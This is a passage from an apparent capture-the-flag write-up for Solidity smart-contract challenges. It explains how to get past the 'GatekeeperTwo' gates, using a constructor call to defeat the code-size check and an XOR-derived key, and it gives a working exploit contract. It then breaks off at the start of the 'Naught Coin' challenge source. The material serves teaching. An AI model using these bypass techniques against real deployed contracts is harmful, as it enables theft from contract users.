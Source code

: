 ```sol
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

- The `gateOne` is same as the gate one in the before challenge.
- And `gateTwo` checks that the size of the code at caller address is zero, when we call the contract from another this checks fails, we can bypass this check by calling the contract from the constructor of the other contract where the size of code will be `0` because the code gets allocated only after successful execution of constructor.
- Finally, the `gateThree` we can decypher the key by doing an `xor` operation between `uint64(bytes8(keccak256(abi.encodePacked(this))))` and `(uint64(0) - 1)`.

> #### Solution:
> ```sol
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.6.0;
> 
> interface gate {
>     function enter(bytes8 _gateKey) external returns (bool);
> }
> 
> contract gateTwoExp {
>     gate g;
> 
>     constructor(address _instance) public{
>         g = gate(_instance);
>         bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ (uint64(0) - 1));
>         g.enter(key);
>     }
> }
> ```

<hr>

## 15 Naught Coin
We need to transfer our token balance to other address.
#### Source:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;
```